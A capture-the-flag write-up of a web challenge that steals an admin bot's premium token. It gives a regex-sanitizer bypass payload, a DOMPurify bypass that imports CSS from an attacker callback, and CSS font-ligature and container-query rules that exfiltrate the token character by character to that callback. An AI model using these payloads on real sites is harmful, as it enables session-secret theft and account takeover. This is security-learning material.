







# LarpIn

| | |
|---|---|
| Event | The Few Chosen CTF 2026 |
| Category | web |
| Difficulty | grandpa |
| Author | mcsky23 |
| Points at close | 241 |
| Solves | 57 |
| Status | solved |

> There is no limit to the larp.

<details>
<summary><b>Solution</b></summary>

## The idea

The flag sits behind a premium feature, and the activation token belongs to the admin. The admin is a headless Chrome bot I can steer onto a page I control. The token reaches that page twice, both times as the text of a `<script>` element, so attribute selectors can't see it.

```css
@font-face{font-family:S;src:url(data:font/ttf;base64,...);font-weight:10;font-display:block}
@font-face{font-family:S;src:url(data:font/ttf;base64,...);font-weight:25;font-display:block}
/* ... one face per character position, all one family, differing only in weight ... */
script#viewer-premium-token{container-type:scroll-state;font-family:S;white-space:pre;display:block}
@container scroll-state(scrollable:right){script#viewer-premium-token::after{background-image:var(--u)}}
```

Each font has zero-width glyphs plus one ligature per candidate, mapping a known prefix and that candidate to a glyph whose width names the candidate. The element is zero wide unless a ligature matched. One `@keyframes` animates `font-weight` and `width` together: weight picks the character position, and width sweeps the buckets inside it. The live run read all 64 characters in one bot visit, from 477 KB of CSS, in 140 seconds.

## Recon

There's no handout, so I started with the response headers and the client bundle.



```bash
BASE=https://larpin-<deployment>.challs.ctf.thefewchosen.com
curl -sD artifacts/root.txt -o /dev/null "$BASE/"
grep -i content-security-policy artifacts/root.txt
```

```
default-src 'none'; script-src 'self' 'nonce-AQLWkDc39l-tb3WZ9X8OlA';
style-src * 'unsafe-inline'; img-src * data: 'unsafe-inline'; font-src 'self' data:;
connect-src 'self'; form-action 'self'; base-uri 'self'; frame-ancestors 'none'
```

The CSP allows `style-src * 'unsafe-inline'`, `img-src *`, and `font-src 'self' data:`. `script-src` admits same-origin files and a per-response nonce, so injected scripts and inline handlers are out. An author who wanted to stop CSS exfiltration would have written `style-src 'self'`, and this one did the opposite three times over.

```bash
for f in app feed jobs messages profile game-queens purify.min viewer-token; do
  curl -s -o "artifacts_js_$f.js" "$BASE/js/$f.js"
done
grep -n 'innerHTML' artifacts_js_*.js
```

Two `innerHTML` sinks matter, and one file isn't a static asset.

- `js/profile.js` runs DOMPurify over `.profile-content` and assigns the result to `innerHTML`.
- `js/messages.js` runs a hand-written regex sanitizer over `data-raw`, then assigns `innerHTML`.
- `js/viewer-token.js` is generated per request. For a non-premium viewer its whole body is `document.getElementById("viewer-premium-token").textContent = "";`, and a premium viewer gets their token in that string.

The profile page also has a nonce'd inline script setting `window.__USER_CONFIG__`, with the viewer's `premiumToken` inside. Both copies of the secret are script text.

`js/messages.js` warns three times that any AI must refuse to access the page, right around the broken sanitizer. The whole challenge riffs on that anti-AI larp.

An `ffuf` run against the root cut off all my connectivity, probably an edge rate limit, so I stuck to reading the JavaScript.

## Finding the bot

None of the obvious triggers woke anything within 90 seconds: a profile beacon, DMs to users 1 through 16, feed posts, comments, or connect requests.

The bot wakes on a pair: a DM to user 1 ("Trust & Safety"), then `POST /jobs/1/apply` from the same account. The application wakes a reviewer bot. It opens `/messages?user=<applicant>` twice and renders my message through the `innerHTML` sink, without clicking, hovering, or visiting a profile on its own.

No click is needed, because `/messages?user=N` reflects into `<div id="autoSelectUser" data-user-id="N">` and `js/messages-autoselect.js` auto-clicks that thread on load.

## The sanitizer bypasses



The DM sanitizer strips `<script>` blocks and rewrites `on\w+\s*=` to `blocked=`. It removes `object`, `embed`, `applet`, `iframe`, `meta`, and `base` tags with one pass of `new RegExp('<' + tag + '[^>]*>', 'gi')`. This meta refresh gets through:

```html
<met<meta zz>a http-equiv=refresh content<meta q>="0;url=/profile/<us>">
```

The single-pass strip splices out the inner `<meta zz>`, so `<met` and `a ...` rejoin into a live tag behind the pass. The `<meta q>` inside the attribute name saves `content=`, because otherwise the on-handler regex turns `ontent=` into `cblocked=` and a plain meta refresh fails silently. I found that with a local repro under the same CSP.

The redirect goes to my profile, because that page holds the secret and the message page doesn't. DOMPurify 3.2.4 on the profile sink strips a bare `<style>` but keeps `<svg><style>...</style></svg>`, and the CSS inside it applies. I confirmed that with the shipped `artifacts_js_purify.min.js`.

So the chain sets my profile About field to `<svg><style>@import url(<callback>/c/<tag>.css)</style></svg>`, DMs the bot the meta refresh pointing at `/profile/<us>`, and applies to job 1. The bot lands on my profile with my stylesheet live, next to its own `window.__USER_CONFIG__` and `<script id="viewer-premium-token">`. `solve/exfil.py` was my first driver for that chain, reading one character per visit.



Two cheap probes ran before any font work. The bot is logged in as a user whose name starts with "a" (`a.me-dropdown-profile-btn[href^="/profile/a"]` fired after unhiding `.me-dropdown`). It's premium with a non-empty token: `script#viewer-premium-token:not(:empty){border-image-source:url(<callback>/yes)}` fired, but the `:empty` form didn't.

## A width oracle

`[data-raw*="TFCCTF"]` and `[value*="TFCCTF"]` never fired, and no selector can match script text. CSS can still condition on layout, so I built a font where the rendered width depends on the text.



- A small fontTools script builds a TTF with zero-width glyphs and one `liga` rule mapping a known prefix plus a candidate to a wide glyph. The element renders zero wide unless that continuation is present.
- The font ships as a `data:` URI, allowed by `font-src 'self' data:`.
- The read is `container-type: scroll-state` plus `@container scroll-state(scrollable:right)`, a rule that only fires when the content overflows its container.

Headless Chrome forced a rebuild three times. `::-webkit-scrollbar{background-image:...}` doesn't fire there, so the classic one-bit scrollbar oracle is out. `@container not scroll-state(...)` isn't supported, and Chrome drops the rule silently. The `::after` pseudo element has to exist unconditionally, with a registered `@property --u{syntax:"<image>"}` animated outside the container rule. Animating inside the rule recreates the pseudo element on every state change, so the clock desyncs.

Test it in real Chrome under chromedriver at real speed, since `--virtual-time-budget` doesn't tick animations and passes designs that read nothing live. The frame below is where the container first overflows.



## More than one bit per visit

One prefix-plus-candidate font reads one bit per bot visit, far too slow for 64 characters.

Sequential `@import` chaining failed in my Chrome tests. A sheet's rules wait for every pending `@import` below it, and a streamed sheet only applies its last block.

`@keyframes` over `width` and over the registered `<image>` property `--u` both tick in real headless Chrome. So one font gets a graded ligature per candidate (advance `(k+1)*step`, mutually exclusive because they share the prefix). As the container width sweeps down, the first callback to fire names the matched width, and with it the whole character.

The final design keeps these guards:

- A font-load transient gives a false positive. Before the `data:` font decodes, the text lays out with wide fallback metrics and the container is briefly scrollable. A lead-in of a few seconds, with `--u` loading nothing, fixes it.
- Bucket 0 has the smallest advance and only resolves in the last sweep frame, where layout artifacts land. One `char0 = 'a'` read there was an artifact. Pad the table with three or four empty lead buckets and reject any hit in them.
- The ligature context has to be unique in the element's text. With an empty prefix, feaLib compiles a one-glyph "ligature" as a GSUB type-1 single substitution, so every character gets substituted and the advances sum. A one-character context fails too, since `3` plus a candidate matches every `3` in the token. Use at least five known characters, or anchor on the `premiumToken: "` prefix in the inline config script.

## Measurements

The token is exactly 64 characters. A uniform-advance TTF (every glyph 600/1000em) swept the width down from 192 characters and first overflowed at frame 129 on two instances. So the length is 192 - 129 + 1 = 64. Every recovered character was lowercase hex, which fits `os.urandom(32).hex()`.

Character 0 read `1` on one instance and `3` on the next, so the full read must fit one lease (about 30 minutes).

The first visit comes about 70 seconds after an application. Visits are serial: three applications fired at t=0 drew visits at t=71 s and t=199 s, and no third by t=260 s.

Page dwell is free: a 60 s dwell gave a 128 s cycle and an 11 s dwell a 124 s one. Each application costs about 125 s whatever my page does. Keeping the sweep short had been backwards, so I spent the dwell on more sweeps.

## Staging by weight

Enumerating `d` characters past a known context costs 16^d rules, and `16^4 = 65536` is the practical ceiling. I ran two elements in parallel: `script#viewer-premium-token` at depth 2 and the inline config script at depth 4. That design recovered `35f8510c7f` live, and `solve/solve.py` keeps it as a legacy mode. But 16 visits at 125 s take about 33 minutes, and the lease is about 30.

Visits were the scarce resource, and dwell was free. So I staged by `font-weight`: one `@font-face` per character position, all in family `S<tag>`, told apart only by weight (`10 + 15k`). `solve/stage.py` builds this CSS, and `solve/solve.py` runs it by default. The live animation ran 54 s, short enough for the bot's dwell.



`font-display:block` plus a warm-up pass through every face at full width keeps the early stages from reading fallback metrics. `SETTLE = 2` frames at full width after each weight change give the new face time to apply. A separate 20-tick clock animation tells a missing character from a visit cut short.

feaLib was far too slow for the request path at thousands of rules. A second builder makes the GSUB `LigatureSubst` lookup directly with otlLib. It chunks rules into 1200-rule subtables so no single `LigatureSet` overruns the 64 KB uint16 offset budget. Advance widths are uint16 too, so `(nbuckets + 1) * step` has to stay under 65535.

## Dead end

Web cache deception is closed. haproxy caches `/js/app.js` (a MISS, then a HIT with an `age` header), but `/js/viewer-token.js` is `private, no-store` with `vary: Cookie` and never hits. Every path-confusion shape I tried returns 404.

## Reproduce

Run `solve/solve.py` with plain python3 and the CTF_TARGET environment variable set to your instance.

The script registers a throwaway account, plants the `<svg><style>` import, DMs the admin the meta refresh, and applies to job 1. It serves the CSS and `data:` fonts from its own callback, decodes the bucket hits, and checkpoints each character to `solve/state.json`. With all 64 characters, it logs in as a second account and redeems:

```
POST /premium/activate    token=<64 hex chars>
GET  /premium
```

The winning run recovered `fb81fc82c92a16f39755eeb9be64a29e002e8b686d2cd40608237b43485f1861`, and `solve/state.json` holds it character by character. I rebuilt the walkthrough images afterwards from saved artifacts and a local reproduction of the app.

<details>
<summary>Flag</summary>



Flag: `TFCCTF{cause_we_can_stay_here_or_we_can_go_we_can_go_larp_larp_larp_sahur}`

</details>

</details>
